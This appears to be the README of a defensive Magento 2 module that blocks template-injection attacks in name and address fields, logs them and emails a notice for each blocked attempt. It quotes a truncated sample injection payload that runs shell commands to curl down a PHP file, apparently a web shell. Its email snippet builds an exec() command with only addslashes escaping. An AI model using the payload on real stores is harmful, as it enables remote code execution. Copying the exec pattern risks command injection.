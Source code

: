 
Disallow random code injection in Magento 2 trough API or WEB requests for:
**Order Creation, Customer Creation, Customer Name Update, Customer Address Update**
and fake orders wtih first and last name like:

      {{var this.getTemp lateFil ter().filt er(order)}} {{var this.getTemp lateFil ter().add AfterFil terCallb ack(system).Fil ter(cd${IFS%??}pub;curl${IFS%??}-o${IFS%??}cache.php${IFS....

Implemented a limit of 30 characters only for the **firstname** and **lastname** fields.

Characters like - **{, }, <, >, %** will be rejected from every field. Update or remove them if necessery:

      if (preg_match('/[{}<>%]/', $input)) {



Email notifications for each unsuccessful attempt.
Set your email in these 4 files:
    **AddressSavePlugin.php, CreateAccountPlugin.php, CustomerSavePlugin.php, OrderSourceLogger.php**
    
and ensure that **mailx** is installed and configured correctly on your server.

If you don't want to receive notifications -> comment:

        $command = 'echo "' . addslashes($message) . '" | mailx -s "Unsuccessful attempt" your@email.com';
        exec($command, $output, $returnVar);
        if ($returnVar !== 0) {
            throw new \Exception("Failed to send email. Command output: " . implode("\n", $output));
        }


All requests will be saved here:     **'/magento/var/log/custom_order.log'**; and send via email:

      Unsuccessful order attempt:
      Error Message: Invalid characters in First Name.
      IP: X.X.X.X, 127.0.0.1
      User Agent: Mozilla/5.0 (Linux; Android 9; SM-G950U) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Mobile Safari/537.36
      Request URI: /rest/default/V1/guest-carts/6DxbMhXoXtUDcOrpOU2EMqOmGzITsEIy/payment-information

      Unsuccessful attempt:
      Error Message: Invalid characters in Postcode.
      IP: X.X.X.X, 127.0.0.1
      User Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
      Request URI: /customer/account/editPost/
